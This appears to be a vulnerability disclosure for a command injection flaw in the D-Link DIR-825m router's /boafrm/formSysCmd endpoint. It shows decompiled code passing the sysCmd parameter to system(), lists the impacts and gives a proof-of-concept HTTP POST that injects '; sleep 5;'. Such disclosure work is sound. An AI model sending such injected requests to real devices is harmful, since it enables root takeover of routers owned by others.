


# D-Link Router DIR-825m - Command Injection in /boafrm/formSysCmd

## Vulnerability Details

### Detail Information

| **Field**              | **Value**                                                    |
| ---------------------- | ------------------------------------------------------------ |
| **Vendor**             | D-Link                                                       |
| **Product**            | D-Link DIR-825m (and other models sharing the same firmware codebase) |
| **Affected Version**   | Firmware v1.1.8 (and potentially prior)                      |
| **Vulnerability Type** | Command Injection (CWE-78)                                   |
| **Vendor Homepage**    | https://www.dlink.com/                                       |

## Vulnerability Description

During a security review of the router's firmware, a critical command injection vulnerability was discovered in the `/boafrm/formSysCmd` endpoint.

The vulnerability is located within the `sub_456CF4` function. This function is designed to handle custom system command execution or diagnostics. It extracts the `sysCmd` parameter from the HTTP POST request. Due to the complete absence of input sanitization, filtering, or validation, a malicious actor can exploit this behavior by injecting Shell control operators (such as `;`, `&`, or `|`) into the parameter. The input is formatted directly into a command string and passed to `system()`, leading to arbitrary command execution with root privileges.

- **Vulnerability Location**: `/boafrm/formSysCmd`
- **Vulnerable Function**: `sub_456CF4`

## Root Cause



The root cause lies in the dangerous practice of using user-controlled parameters directly within system shell executions without any validation.

Inside the `sub_456CF4` function, the `sysCmd` parameter is extracted from the incoming request:

```
v3 = (const char *)sub_41351C(a1, "sysCmd", "");
```

If the parameter is not empty, it is directly passed to `snprintf` to construct the execution payload:

```
if ( *v3 )
{
  snprintf(v5, 100, "%s 2>&1 > %s", v3, "/tmp/syscmd.log");
  system(v5);
}
```

Because the buffer `v5` is executing through `/bin/sh` (via `system()`), injecting a semicolon `;` allows an attacker to append their own commands.

## Impact

An attacker can exploit this vulnerability to achieve various malicious outcomes, including:

- **Arbitrary Command Execution**: Execute arbitrary shell commands on the system with `root` privileges (limited to 76 bytes).
- **Denial of Service (DoS)**: Shut down critical system processes, causing the router's web interface or daemon to crash.
- **Device Takeover**: Gain persistent root access, modify router configuration parameters, alter DNS tables, or intercept active network traffic passing through the router.

## Proof of Concept (PoC)

This vulnerability can be triggered by sending a crafted HTTP POST request to the `/boafrm/formSysCmd` endpoint.

Using `; sleep 5;` (URL-encoded as `%3B+sleep+5%3B`) inside the `sysCmd` parameter will cause the system to delay the HTTP response by 5 seconds, confirming execution.

### HTTP POST Request

```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.0.1
Content-Length: 70
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/syscmd.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: webuicookie=16356902200424238335
Connection: keep-alive

sysCmd=sysCmd=%3B+sleep+5%3B&apply=Apply&submit-url=%2Fsyscmd.htm&msg=
```

When execute the POST script,the client receive the response after 5 seconds.



